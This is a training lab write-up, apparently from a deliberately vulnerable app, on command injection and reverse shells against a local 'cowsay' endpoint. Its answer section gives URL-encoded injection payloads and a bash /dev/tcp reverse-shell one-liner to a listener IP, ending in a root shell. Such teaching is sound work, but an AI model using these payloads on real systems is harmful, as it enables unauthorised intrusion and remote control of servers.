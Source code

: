 # RCE - Remote Code Execution & Obtaining a Reverse Shell

A remote code injection (RCE) vulnerability is the most deadly type of vulnerability since it gives an attacker command and control in some regard or another of a host server.

When you find an RCE, you can use it to execute commands as the user that owns the process you have compromised. For example, if you run a tomcat webserver as the user `tomcat` and that process is exploited by an RCE, you can do anything that `tomcat` user can do. This is the reason it is always recommended to run webservers as non-privileged users that don't have access to more than they need.

Once you have the ability to execute arbitrary commands on a host, you can do lots of nasty things such as listing the contents of sensitive files, updating HTML code and defacing websites, etc. However, to embed yourself further in the system, you'll want to obtain an actual shell on the host you've compromised. This allows you execute multiple commands on the host just like if you had a remote SSH or Telnet session on the host.

The way to do this is to establish a reverse shell. The reason it's called reverse is that instead of connecting your session to the victim, you setup a listener on a remote box that you own, and bind to that from the victim host. The reason should be fairly self-explanitory, that setting up a listener on a box you don't own requires elevated privilege and also most hosts block unused ports via firewall rules. However, most hosts actually need to gain access to the web to download packages, etc so egress is typically allowed by firewalls, especially on ports 80 and 443 (HTTP and HTTPS respectively).

The details of how these reverse shells include a bit of understanding of file redirection in unix or use of socket-level programming in different scripting languages, so I'll leave this link here for you to read through. For this exercise, we'll just use copy/paste to help us out. https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/

![](assets/reverse_shell.png)

# Lab

We have a vulnerable endpoint that uses a Linux command line utility. Let's try to execute this fun little endpoint that executes the `cowsay` program on Linux normally:

```
$ curl 'http://localhost:8080/cowsay?input=I+Love+Linux!'
 _______________
< I Love Linux! >
 ---------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||

```

Try to exploit this command using what we've learned so far from the SQL injection exercise about escaping

<details>
  <summary>Answer</summary>

  This executes the `cowsay` program on our host linux box, but as you can see, it allows user input. This is a sign that it might have a RCE type vulnerability if input is not validated. Let's try with a few inputs to see what we have control over.

  Let's assume that the executable looks something like `cowsay 'input'`. There wouldn't have to be a single quote there, but it's a reasonable initial assumption. We'll have to escape using the same method we used for the SQL injection. So let's see what we can execute the `ls` command to list the directory contents.

  The way you'd escape would be something like this where the `';` gets you out of the expected command and then you execute your own command. Then the `#` comment character ignores the rest of the command just like in the SQL injection:

  ```
  cowsay 'input'; ls #
  ```
  But there's some characters that probably won't work in a URL parameter. This is where we'll try to encode our command string with a URL encoder. We'll use https://www.urlencoder.org/ for this. If you copy the above line and encode it you can add it to the URL parameter like so and then execute the curl request to see what you get:

  ```
  $ curl "http://localhost:8080/cowsay?input=input%27%3B%20ls%20%23"
   _______
  < input >
   -------
          \   ^__^
           \  (oo)\_______
              (__)\       )\/\
                  ||----w |
                  ||     ||
  Dockerfile
  README.md
  bin
  boot
  dev
  docker-compose.yml
  docker-java-home
  etc
  exercises
  home
  internal_site
  ...
  ```

  _insert evil laugh here_

  So now we've confirmed our suspicions that we have the ability to execute arbitrary commands from this endpoint. Now we can solidify our hold on the box using a Reverse Shell. First we'll need to actually create our listener using `Terraform`. Go ahead and [download Terraform](https://www.terraform.io/downloads.html) and navigate to the [`reverse_shell`](../reverse_shell/README.md) directory in this project and follow the instructions to spin up your listener on port 443.

  ```
  thing'; bash -i >& /dev/tcp/LISTENER_IP/443 0>&1 #
  ```

  This gets parsed as:
  ```
  /usr/games/cowsay 'thing'; bash -i >& /dev/tcp/LISTENER_IP/443 0>&1 #'
  ```

  Now let's get the IP from our listener, URL encode our payload and execute this against the web server.

  ```
  # Get the IP from the AWS host you just created
  export LISTENER_IP=$(aws --region us-west-2 ec2 describe-instances --filters  "Name=tag:Name,Values=VulnadoReverseShellReceiver" | jq -r '.Reservations[0].Instances[0]|.PublicIpAddress')

  # Use the URL encoded payload from above to execute a reverse shell.
  curl "http://localhost:8080/cowsay?input=thing%27%3B%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F${LISTENER_IP}%2F443%200%3E%261%20%23"
  ```

  If you look back at your terminal running the listener, you should now see a prompt that looks something like:

  ```
  [ec2-user@ip-10-42-0-83 ~]$ sudo nc -l -p 443
  bash: cannot set terminal process group (1): Inappropriate ioctl for device
  bash: no job control in this shell
  root@6e99769a0f82:/#
  ```

  Congratulations, you now have a _mostly_ functioning bash shell into the compromised web server. At this point you can do lots of nasty things such as listing environment variables with `env` or downloading new packages because, as your prompt tells you, you now have root control.

  Now that you have a remote shell try finding the secret value in the root directory!

  **Followup question:** How would we validate the url that is being passed into this function?

</details>
